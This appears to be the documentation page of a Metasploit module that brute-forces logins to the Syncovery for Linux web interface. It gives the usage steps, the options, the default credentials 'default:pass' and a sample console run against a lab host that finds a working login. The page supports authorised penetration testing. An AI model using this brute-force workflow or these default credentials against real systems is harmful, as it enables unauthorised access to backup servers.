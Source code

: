 ## Vulnerable Application
[Syncovery For Linux with Web-GUI](https://www.syncovery.com/download/linux/)

This module attempts to brute-force valid login credentials for the Syncovery File Sync & Backup Software Web-GUI for Linux.
The default credentials are checked by default.

### Authors

- Jan Rude (mgm security partners GmbH)

### Platforms

- Unix

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use modules/auxiliary/scanner/http/syncovery_linux_login`
4. Do: `set RHOSTS <TARGET HOSTS>`
5. Do: `run`
6. On success you should get valid credentials.

## Options

### USERNAME
Username used for login. Default is "default".

### PASSWORD
Password used for login. Default is "pass".

### TARGETURI
The path to Syncovery login.

### PORT
The (TCP) target port on which Syncovery is running. By default port 8999 is used for HTTP and port 8943 is used for HTTPS.

## Scenarios

### Syncovery for Linux with default credentials

```
msf6 > use modules/auxiliary/scanner/http/syncovery_linux_login
msf6 auxiliary(scanner/http/syncovery_linux_login) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf6 auxiliary(scanner/http/syncovery_linux_login) > options

Module options (auxiliary/scanner/http/syncovery_linux_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD          pass             no        The password to Syncovery (default: pass)
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.178.26   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             8999             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   true             yes       Stop guessing when a credential works for a host
   TARGETURI         /                no        The path to Syncovery
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          default          yes       The username to Syncovery (default: default)
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf6 auxiliary(scanner/http/syncovery_linux_login) > run

[+] 192.168.178.26:8999 - Syncovery File Sync & Backup Software confirmed
[+] 192.168.178.26:8999 - Identified version: 9.48a
[+] 192.168.178.26:8999 - Success: 'default:pass'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
